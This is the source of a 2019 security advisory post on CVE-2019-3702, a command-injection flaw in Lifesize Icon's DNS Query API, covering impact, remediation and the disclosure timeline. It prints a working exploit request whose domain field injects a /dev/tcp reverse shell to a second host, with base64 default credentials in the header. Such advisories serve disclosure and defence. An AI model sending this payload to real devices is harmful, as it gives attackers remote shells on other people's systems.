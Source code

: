 ```yaml
---
layout: post
title: "Remote Code Execution in Lifesize Icon"
date: 2019-03-26 09:00:00
image:
      url: /assets/pixabay/matrix-1799659_1920.jpg
author: 'Joshua Lehr'
author_image: "https://avatars1.githubusercontent.com/u/22133182?s=400&u=9c37c0c25738af0b47f4b2ab1c3adb0b26f80abf&v=4"
author_link: "https://github.com/noskill1337"
cve: "CVE-2019-3702"
cve_description: "A Remote Code Execution issue in the DNS Query Web UI in Lifesize Icon LS_RM3_3.7.0 (2421) allows remote authenticated attackers to execute arbitrary commands via a crafted DNS Query address field in a JSON API request."
cve_affectedVersion: "LS_RM3_3.7.0 (2421)"
cvss: "8.8"
cvss_vector: "3.0/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H"
softwarePatchLink: "[https://cdn.lifesizecloud.com/](https://cdn.lifesizecloud.com/)"
---
```


## Overview

- Vulnerability: Remote Code Execution (RCE)
- Vendor: Lifesize
- Vendor Homepage: [https://www.lifesize.com/en](https://www.lifesize.com/en)
- Product: Lifesize Icon
- Version: {{ page.cve_affectedVersion }}

## Background

LifeSize Icon is a video collaboration platform and consists of various components, e.q. software, video and phone systems.

From the vendor's [website](https://www.lifesize.com/en/video-conferencing-app):
"Lifesize conferencing is streamlined and built to enhance all the different ways your team communicates — from one-on-one audio and video calls to full-scale company meetings among multiple locations. Replace outdated, costly, and audio-only services with more meaningful face-to-face conversations. Features like easy-to-use interface, screen sharing, and calendar integration make Lifesize’s an award-winning HD video conferencing solution. And, unlike consumer-grade apps, Lifesize was built for business. We have over a decade of experience designing HD conference room cameras and touchscreen conference phones. We stand behind our service with a financially backed SLA with 24x7x365 customer support."

## Issue Description

While analyzing the implementation of LifeSize Icon Software, one Remote Code Execution vulnerability has been identified, which can be exploited in order to execute arbitrary commands within the DNS Query address field. This vulnerability can be exploited by authenticated attackers with access to the web interface.

The system provides a JSON API, which exposes various methods like the DNS Query function. This function contains a address field that can be exploited with a remote command execution.

The following **HTTP request** illustrates this approach:

~~~ http
POST /rest/request/8cb1a00d113443c6a9a220104bbdea33/Comm_dnsQuery HTTP/1.1
Host: 1.1.1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:63.0) Gecko/20100101
Firefox/63.0
Accept: */*
Accept-Language: de,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://1.1.1.1/
X-Client: icon-web-client
Authorization: LSBasic c3VwcG9ydDpzdXBwb3J0
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 142
Connection: close

{"call":"Comm_dnsQuery","params":{"type":"A","domainname": "1.1.1.2; 0<&196;exec 196<>/dev/tcp/1.1.1.2/4446; sh <&196 >&196 2>&196"}}
~~~

## Impact

This vulnerability affects the confidentiality / integrity / availability of the system. This allows an attacker to read / manipulate the system. If an attacker is aware of the security issue, he or she may steal important data or compromise the system. With this vulnerability, a complete system compromise is possible.

## Remediation

In order to avoid this vulnerability, it's suggested to disable/update the software with this patch:
**{{ page.cve_affectedVersion }}**

{%if page.softwarePatchLink %}{{ site.softwarePatchText }}{{ page.softwarePatchLink }}{% else %}{{ "" }}{% endif %}

## CVE

- CVE: [{{ page.cve }}](https://cve.mitre.org/cgi-bin/cvename.cgi?name={{ page.cve }})
- CVSS Base Score: **{{ page.cvss }}**
- CVSS: {{ page.cvss_vector }}

## Credit

- {{ site.owner }}
- Patrick Muench

## Disclosure Timeline

- 2018-November-11: Discovered vulnerability
- 2019-Januar-03: Vendor Notification
- 2019-Januar-27: Vendor Response/Feedback
- 2019-May-12: Vendor Fix/Patch
- 2019-May-13: Public Disclosure

## Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information. In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

System administrators need tools like this to discover vulnerable hosts. This tool is offered for legal purposes only and to forward the security community's understanding of this vulnerability. As this PoC actively exploits the vulnerability, do not use against targets without prior permission.

The contents of this advisory are copyright (c) 2019 SVA System Vertrieb Alexander GmbH and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.

## License

{{ site.LicenseDisplay }}